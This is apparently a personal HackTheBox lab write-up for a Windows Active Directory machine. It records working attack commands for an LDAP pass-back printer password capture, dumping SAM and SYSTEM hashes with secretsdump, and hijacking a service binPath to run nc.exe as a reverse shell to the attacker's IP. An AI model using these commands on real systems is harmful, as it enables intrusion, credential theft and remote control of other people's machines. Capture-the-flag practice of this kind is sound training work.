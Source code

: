 ### NMAP

```
sudo nmap -sC -sV -vv -oN nmap-cicada 10.10.11.35
```

https://medium.com/r3d-buck3t/pwning-printers-with-ldap-pass-back-attack-a0d8fa495210

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250606221745.png]]

nc listener
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250606221724.png]]
- get printer's password :) 

### evil-winrm to login
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250606235256.png]]
### enumerate for priv esc
```
whoami /all
```

We have _SeBackupPrivilege_
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250606235218.png]]
### Priv Esc

#### reg save sam and system archives

```
reg save HKLM\SAM SAM
```

```
reg save HKLM\SYSTEM SYSTEM
```

Save reg keys and download reg keys

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250606235353.png]]

#### impacket-secretsdump 

Use secrets dump along with sam and system to get administrator's hash 

```
impacket-secretsdump local -sam sam -system system
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250606235637.png]]


### Priv Esc 

#### impacket-psexec

Psexec as admin 

Nope :)


### Enum for Priv Esc

We're part of Server Operators group and can basically upload and change binary paths.

https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/

Services

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250607002909.png]]

Upload nc.exe 

```
cp /usr/share/windows-resources/binaries/nc.exe .
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250607003214.png]]

Set up nc listener on port 4444

Replace binary path 
```
sc.exe config VSS binPath="C:\Users\svc-printer\nc.exe -e cmd.exe 10.10.14.10 4444"
```
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250607004529.png]]

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250607004627.png]]